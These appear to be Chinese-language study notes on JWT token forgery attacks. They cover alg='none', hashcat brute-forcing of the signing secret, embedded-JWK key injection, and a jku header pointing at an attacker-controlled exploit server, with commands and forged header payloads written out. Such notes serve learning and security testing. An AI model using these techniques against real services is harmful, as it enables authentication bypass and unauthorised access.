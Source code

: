 请求头.负载.签名                  header.playload.signature       其中 配置信息是header，敏感数据是在playload

它的不安全性在于，开发人员的验证不够充分，使得可以使用各种方法伪造 JWT身份令牌，以实现越权操作，也称为 JWT攻击。



**常规攻击方式**

1. 对签名不做验证，只解码

2. Hearder设置alg=“none”绕过 小写

3. 根据字典暴力破解密钥

   ```shell
   hashcat -a 0 -m 16500 <jwt> <wordlist> [--show] #-a -0表示采用密码本暴力破解 -m 16500代表JWT破解
   docker run -it --rm  jwtcrack <token> [字符范围] [最长字符数] [sha512]
   ```

4. JWK是JWT中一个json子对象，用于非对称密码算法中存储公钥，利用JWK，植入RSA公钥做验证，这个机制原是用于分布式服务（Header）

   ```json
   {
       "kid": "8b500ead-ec44-48c8-a7ff-ac0b739d65f6",
       "typ": "JWT",
       "alg": "HS256",
       "jwk": {
           "kty": "oct",
           "kid": "8b500ead-ec44-48c8-a7ff-ac0b739d65f6",
           "k": "c2VjcmV0MQ=="
       }
   }
   ```

   

5. JKU (JWK SET URL)是存放JWK的一个资源集合，链接返回的内容是下面json内容即可，注意修改时，需要修改头部的kid和下方json的目标JWK相同 (Header)      有SSRF漏洞风险

   ```sh
   客户端：
   {
       "kid": "aa994560-fc58-4d92-9cba-410b8fe56de9",
       "typ": "JWT",
       "alg": "RS256",
       "jku": "https://exploit-0a3500d003c40a0284b7b2ff011c00b2.exploit-server.net/kkk"
   }
   
   服务端：
   {
       "keys": [
           {
               "kty": "RSA",
               "e": "AQAB",
               "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
               "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
           },
       ]
   }
   ```
